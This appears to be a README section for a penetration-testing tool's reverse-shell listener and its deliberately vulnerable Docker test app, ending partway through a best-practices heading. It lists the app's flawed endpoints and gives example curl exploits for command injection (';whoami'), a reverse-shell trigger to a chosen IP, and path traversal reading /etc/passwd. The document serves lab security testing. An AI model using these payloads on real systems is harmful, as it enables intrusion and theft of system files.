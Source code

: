 ### Manual Testing

1. **Start the vulnerable application**:
   ```bash
   cd test-env/reverse-shell-test
   docker-compose up vulnerable-app
   ```

2. **Create a listener** in the web interface

3. **Trigger a reverse shell**:
   ```bash
   # From the vulnerable container
   curl "http://localhost:8080/reverse-shell?host=host.docker.internal&port=4444"
   ```

4. **Interact with the shell** through the web interface

## Vulnerable Application

The test environment includes a vulnerable Python application with multiple vulnerabilities:

### Endpoints

- **`/`**: Main page with vulnerability links
- **`/ping?host=<target>`**: Command injection vulnerability
- **`/reverse-shell?host=<target>&port=<port>`**: Reverse shell trigger
- **`/file?path=<path>`**: Path traversal vulnerability

### Example Exploits

```bash
# Command injection
curl "http://localhost:8080/ping?host=127.0.0.1;whoami"

# Reverse shell
curl "http://localhost:8080/reverse-shell?host=<your-ip>&port=4444"

# Path traversal
curl "http://localhost:8080/file?path=/etc/passwd"
```

## Security Considerations

### Important Notes

1. **For Testing Only**: This functionality is designed for penetration testing and security research
2. **Network Isolation**: Always test in isolated environments
3. **Port Management**: Be aware of port conflicts and firewall rules
4. **Logging**: All activities are logged for audit purposes

### Best Practices
